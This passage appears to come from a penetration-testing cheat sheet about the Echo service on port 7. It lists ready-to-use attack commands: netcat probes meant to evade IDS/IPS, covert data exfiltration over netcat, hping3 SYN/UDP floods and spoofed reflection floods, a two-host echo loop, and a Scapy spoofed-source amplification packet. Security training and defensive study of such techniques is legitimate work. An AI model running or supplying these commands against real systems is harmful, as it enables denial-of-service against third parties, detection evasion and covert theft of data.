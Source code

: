 ### Low Noise Probing
- **Tool:** [[Custom Scripts]]
    ```bash
    echo "probe" | nc <target_ip> 7
    ```
- **Description:** Using low-frequency probes to avoid detection by IDS/IPS systems.

## Data Exfiltration

### Echo-based Data Exfiltration
- **Tool:** [[Custom Scripts]], [[NetCat]]
    ```bash
    echo "secret_data_exfil" | nc <target_ip> 7
    ```
- **Description:** Covertly exfiltrate small amounts of data using the Echo service as a carrier.



# Exploits and Attacks

## Denial of Service

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Echo Loop Vulnerability
- **Tool:** [[Custom Scripts]], [[NetCat]]
    ```bash
    while true; do echo "loop" | nc <target_ip_1> 7 | nc <target_ip_2> 7; done
    ```
- **Description:** Create a loop between two devices, causing a self-sustaining flow of traffic that can overwhelm network resources.

### Amplification Attack
- **Tool:** [[Scapy]]
    ```python
    from scapy.all import *
    send(IP(src="<spoofed_ip>", dst="<target_ip>")/UDP(dport=7)/Raw(load="flood"))
    ```
- **Description:** Exploiting the Echo service to amplify traffic towards a spoofed victim, causing network congestion.
